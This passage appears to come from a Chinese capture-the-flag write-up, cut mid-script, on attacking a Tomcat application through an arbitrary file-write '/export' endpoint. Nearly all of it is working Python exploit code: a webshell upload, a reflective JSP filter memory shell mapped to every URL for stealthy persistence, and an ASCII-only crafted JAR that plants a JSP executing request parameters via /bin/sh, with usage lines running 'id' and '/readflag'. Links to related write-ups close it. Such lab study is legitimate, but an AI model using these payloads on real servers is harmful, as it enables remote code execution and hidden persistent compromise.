    requests.post(el, data={"a": "/tmp/session.jsp", "b": "k", "c": JSP, "d": "/"})
    requests.post(f"{TARGET}/export", data={"dir": "./WEB-INF/lib/", "filename": "a.jar", "content": "x"})
    time.sleep(12)
    return f"{TARGET}/tmp/session.jsp"


def shell_exec(shell, cmd):
    r = requests.post(shell, data={"cmd": cmd}, timeout=30)
    d = r.text.encode("utf-8", errors="replace")
    i = d.rfind(b"kt\x00")
    return d[i + 3:].decode("utf-8", errors="replace").strip()


def upload_b64(shell, b64data, remote):
    for i in range(0, len(b64data), 100_000):
        chunk = b64data[i:i + 100_000]
        op = ">" if i == 0 else ">>"
        shell_exec(shell, f"echo {chunk} {op} /tmp/t.b64")
        time.sleep(0.1)
    out = shell_exec(shell, f"base64 -d /tmp/t.b64 > {remote} && md5sum {remote}")
    return out


def install_filter(shell):
    subprocess.run(["javac", "-cp", "/tmp/servlet-api.jar", "FilterMemshell.java"], check=True)
    fb64 = base64.b64encode(open("FilterMemshell.class", "rb").read()).decode()
    jsp = f'''<%@ page import="java.lang.reflect.*,java.util.*" %>
<%!
String B64 = "{fb64}";
public byte[] b64d(String s) throws Exception {{
    try {{
        Class<?> c = Class.forName("java.util.Base64");
        Object d = c.getMethod("getDecoder").invoke(null);
        return (byte[]) d.getClass().getMethod("decode", String.class).invoke(d, s);
    }} catch (Exception e) {{
        Class<?> c = Class.forName("sun.misc.BASE64Decoder");
        Object d = c.newInstance();
        return (byte[]) d.getClass().getMethod("decodeBuffer", String.class).invoke(d, s);
    }}
}}
%>
<%
ServletContext sc = request.getServletContext();
Field f1 = sc.getClass().getDeclaredField("context");
f1.setAccessible(true);
Object ac = f1.get(sc);
Field f2 = ac.getClass().getDeclaredField("context");
f2.setAccessible(true);
Object ctx = f2.get(ac);
Field fcF = ctx.getClass().getDeclaredField("filterConfigs");
fcF.setAccessible(true);
Map<String, Object> fcs = (Map) fcF.get(ctx);
if (!fcs.containsKey("memshell")) {{
    ClassLoader cl = Thread.currentThread().getContextClassLoader();
    Class<?> fc = null;
    try {{
        fc = Class.forName("FilterMemshell", false, cl);
    }} catch (ClassNotFoundException e) {{
        byte[] cb = b64d(B64);
        Method define = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
        define.setAccessible(true);
        fc = (Class<?>) define.invoke(cl, cb, 0, cb.length);
    }}
    Class<?> fdC = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
    Object fd = fdC.newInstance();
    fdC.getMethod("setFilterName", String.class).invoke(fd, "memshell");
    fdC.getMethod("setFilterClass", String.class).invoke(fd, fc.getName());
    ctx.getClass().getMethod("addFilterDef", fdC).invoke(ctx, fd);
    Field fmF = ctx.getClass().getDeclaredField("filterMaps");
    fmF.setAccessible(true);
    Object cfm = fmF.get(ctx);
    Method arrM = cfm.getClass().getMethod("asArray");
    arrM.setAccessible(true);
    boolean mapped = false;
    for (Object m : (Object[]) arrM.invoke(cfm)) {{
        String n = (String) m.getClass().getMethod("getFilterName").invoke(m);
        if ("memshell".equals(n)) {{ mapped = true; break; }}
    }}
    if (!mapped) {{
        Class<?> fmC = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Object fm = fmC.newInstance();
        fmC.getMethod("setFilterName", String.class).invoke(fm, "memshell");
        fmC.getMethod("addURLPattern", String.class).invoke(fm, "/*");
        Method addM = cfm.getClass().getMethod("add", fmC);
        addM.setAccessible(true);
        addM.invoke(cfm, fm);
    }}
    Class<?> fciC = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
    Constructor<?> fciCtor = fciC.getDeclaredConstructor(Class.forName("org.apache.catalina.Context"), fdC);
    fciCtor.setAccessible(true);
    fcs.put("memshell", fciCtor.newInstance(ctx, fd));
    out.print("installed");
}} else {{
    out.print("already");
}}
%>'''
    jb64 = base64.b64encode(jsp.encode()).decode()
    upload_b64(shell, jb64, "/tmp/memshell.jsp")
    r = requests.get(f"{TARGET}/tmp/memshell.jsp", timeout=30)
    print("filter memshell:", r.text.strip())
    r = requests.get(f"{TARGET}/tmp/memshell.jsp", params={"cmd": "id"}, timeout=15)
    print("verify:", r.text.strip().split("-->")[-1].strip())


shell = get_shell()
print("webshell:", shell)
install_filter(shell)

"""
Usage:
  python3 memshell.py http://127.0.0.1:8080

Flow:
  EL chain -> webshell -> upload memshell.jsp (FilterMemshell) -> trigger

Demo:
  curl "http://127.0.0.1:8080/tmp/anything?cmd=id"
  curl "http://127.0.0.1:8080/tmp/session.jsp?cmd=/readflag"
"""
```

```python
#!/usr/bin/env python3
import contextlib
import io
import struct
import sys
import time
import zlib

import requests
from compress_lib import ASCIICompressor

PREFIX = b"DIRTY DATA AT THE BEGINNING "
SUFFIX = b" DIRTY DATA AT THE END"
PAD_TAIL = b"C0NY1"
JSP_BODY = b'<%out.print(new java.util.Scanner(Runtime.getRuntime().exec(new String[]{"/bin/sh","-c",request.getParameter("c")}).getInputStream()).useDelimiter("\\\\A").next());%>\n'
ALLOW = set(range(128)) - {38, 60, 39, 62, 34, 40, 41}


def fld_ok(n):
    return all((n >> s) & 0xff in ALLOW for s in (0, 8, 16, 24))


def find_content(zip_name):
    comp = ASCIICompressor(bytearray(ALLOW))
    cands = []
    for pad in range(300, 3000):
        raw = b"<!-- " + b"A" * pad + b" -->\n" + JSP_BODY
        if fld_ok(zlib.crc32(raw)) and fld_ok(len(raw)):
            cands.append(raw)
    for raw in cands:
        with contextlib.redirect_stdout(io.StringIO()):
            data = comp.compress(bytearray(raw))[0]
        if fld_ok(len(data)) and fld_ok(len(data) + len(zip_name) + 0x1e + 27):
            return raw, data
    raise SystemExit("no fit")


def build_jar(raw, data, zip_name):
    crc = zlib.crc32(raw) % pow(2, 32)
    lfh = (b"PK\x03\x04" + struct.pack("<HHHHH", 0x000A, 0x0008, 0x0008, 0, 0)
           + struct.pack("<LLL", 0, 0, 0)
           + struct.pack("<HH", len(zip_name), 0) + zip_name)
    cd = (b"PK\x01\x02" + struct.pack("<HHHHHH", 0x000A, 0x000A, 0x0008, 0x0008, 0, 0)
          + struct.pack("<LLL", crc, len(data), len(raw))
          + struct.pack("<HHHHH", len(zip_name), 0, 0, 0, 0)
          + struct.pack("<LL", 0, 27) + zip_name)
    eocd = (b"PK\x05\x06" + struct.pack("<HHHH", 0, 0, 1, 1)
            + struct.pack("<LL", len(cd), len(data) + len(zip_name) + 0x1e + 27)
            + struct.pack("<H", len(PAD_TAIL) + len(SUFFIX)))
    return lfh + data + cd + eocd + PAD_TAIL


def attack(target, cmd, name="shell.jsp"):
    zip_name = f"META-INF/resources/{name}".encode()
    raw, data = find_content(zip_name)
    content = build_jar(raw, data, zip_name)
    assert all(b < 0x80 and b not in {38, 60, 39, 62, 34, 40, 41} for b in content), "content unsafe"
    r = requests.post(f"{target}/export", data={"dir": "./WEB-INF/lib/", "filename": "a.jar", "content": content.decode("latin-1")})
    assert r.status_code == 200, r.text
    requests.post(f"{target}/export", data={"dir": "./WEB-INF/tomcat-web.xml/", "filename": "x", "content": "x"})
    time.sleep(12)
    r = requests.get(f"{target}/{name}", params={"c": cmd}, timeout=15)
    out = r.text.strip().split("-->")[-1].strip()
    return out.rstrip("\x00")


if __name__ == "__main__":
    t = sys.argv[1].rstrip("/")
    c = sys.argv[2] if len(sys.argv) > 2 else "id"
    n = sys.argv[3] if len(sys.argv) > 3 else "shell.jsp"
    print(attack(t, c, n))


# python3 ascii_attack.py http://127.0.0.1:8080 ls
```

el_webshell.py 打 webshell，memshell.py 通过 EL webshell 上传 JSP Filter 内存马，ascii_attack.py 完全不使用 EL（ASCII jar 路线）。


> https://github.com/FightingLzn9/AgentMemshell/releases/tag/v1
> https://gv7.me/articles/2022/rwctf-4th-desperate-cat-ascii-jar-writeup/
> https://github.com/Arusekk/ascii-zip
> https://github.com/voidfyoo/rwctf-4th-desperate-cat/tree/main/writeup